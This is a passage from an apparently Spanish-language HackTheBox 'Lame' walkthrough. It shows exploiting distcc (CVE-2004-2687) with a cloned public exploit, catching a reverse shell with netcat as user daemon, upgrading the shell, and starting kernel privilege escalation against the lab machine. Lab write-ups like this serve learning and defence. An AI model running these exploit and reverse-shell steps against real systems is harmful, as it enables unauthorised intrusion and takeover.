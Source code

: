 Detectamos que el servicio es vulnerable al CVE-2004-2687, así que vamos a hacer uso del exploit [CVE-2004-2687](https://github.com/k4miyo/CVE-2004-2687) del repositorio de github de [k4miyo](https://github.com/k4miyo/).

```bash
cd ../exploit
❯ git clone https://github.com/k4miyo/CVE-2004-2687
  Clonando en 'CVE-2004-2687'...
  remote: Enumerating objects: 9, done.
  remote: Counting objects: 100% (9/9), done.
  remote: Compressing objects: 100% (7/7), done.
  remote: Total 9 (delta 0), reused 0 (delta 0), pack-reused 0
  Recibiendo objetos: 100% (9/9), listo.
❯ cd CVE-2004-2687/
[+] Payload: Payload generated!
[+] Execution: DistCC Daemon exploited with success!
[+] Opening connection to 10.10.10.3 on port 3632: Done
[q] Trying to bind to :: on port 4564: Trying ::
Traceback (most recent call last):
  File "/home/bast1ant1c/Desktop/bast1ant1c/HTB/lame/exploit/CVE-2004-2687/CVE-2004-2687.py", line 120, in <modu  le>
    shell = listen(lport, timeout=20).wait_for_connection()
  File "/home/bast1ant1c/.local/lib/python3.9/site-packages/pwnlib/tubes/listen.py", line 105, in __init__
    listen_sock.bind(self.sockaddr)
OSError: [Errno 98] Address already in use
[*] Closed connection to 10.10.10.3 port 3632
```
Generamos un listener por el puerto escogido y obtenemos acceso al sistema como usuario `deamon`
  
```bash
  ❯ nc -lvnp 4564
  listening on [any] 4564 ...
  connect to [10.10.14.6] from (UNKNOWN) [10.10.10.3] 54873
  whoami
  daemon
```

<p style="text-align: center;">
<img src="/assets/images/lame/04-intrusion2.png">       
</p>

## ESCALADA DE PRIVILEGIOS KERNEL

Una vez tenemos acceso a la maquina vamos a realizar el escalamiento de permisos para poder obtener acceso privilegiado y control absoluto, en esta ocasión vamos a verificar la versión de kernel de la maquina víctima.

```bash
  script /dev/null -c bash
  daemon@lame:/tmp$ uname -a
  Linux lame 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
```
